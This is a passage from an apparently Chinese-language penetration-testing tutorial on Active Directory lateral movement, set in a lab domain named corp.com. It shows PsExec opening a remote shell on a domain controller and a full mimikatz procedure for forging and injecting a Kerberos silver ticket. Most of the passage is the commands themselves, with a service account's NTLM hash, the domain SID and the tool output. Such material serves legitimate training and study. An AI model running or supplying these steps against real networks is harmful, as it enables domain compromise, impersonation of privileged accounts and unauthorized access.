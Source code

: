 输出表明net use命令成功。然后我们使用klist命令列出新请求的 Kerberos 票证，其中包括用于CIFS 服务的 TGT 和 TGS

运行./PsExec.exe以在\dc01机器上以 Jeff_Admin 身份远程启动 cmd.exe

```
PS C:\Tools\active_directory> .\PsExec.exe \\dc01 cmd.exe

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Windows\system32> ipconfig

Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::7959:aaad:eec:3969%2
   IPv4 Address. . . . . . . . . . . : 192.168.1.110
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.1.1
...

C:\Windows\system32> whoami
corp\jeff_admin
```

## pass the ticket（票据传输，利用TGS）

### 制作银票
silver ticket 命令需要用户名 ( /user )、域名 ( /domain )、上面突出显示的域 SID ( /sid )、服务的完全限定主机名 ( /target )、服务类型 ( / service:HTTP )，以及 iis_service 服务帐户 ( /rc4 ) 的密码哈希。

最后，使用/ptt标志将生成的银票直接注入内存。

在运行此之前，我们将使用kerberos::purge刷新任何现有的 Kerberos 票证，并使用kerberos::list验证清除 
```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::list

mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
User      : offsec
Domain    : corp.com (CORP)
SID       : S-1-5-21-1602875587-2787523311-2599479668
User Id   : 500
Groups Id : \*513 512 520 518 519
ServiceKey: e2b475c11da2a0748290d87aa966c327 - rc4_hmac_nt
Service   : HTTP
Target    : CorpWebServer.corp.com
Lifetime  : 13/02/2018 10.18.42 ; 11/02/2028 10.18.42 ; 11/02/2028 10.18.42
-> Ticket : \*\* Pass The Ticket \*\*

 \* PAC generated
 \* PAC signed
 \* EncTicketPart generated
 \* EncTicketPart encrypted
 \* KrbCred generated

Golden ticket for 'offsec @ corp.com' successfully submitted for current session

mimikatz # kerberos::list
```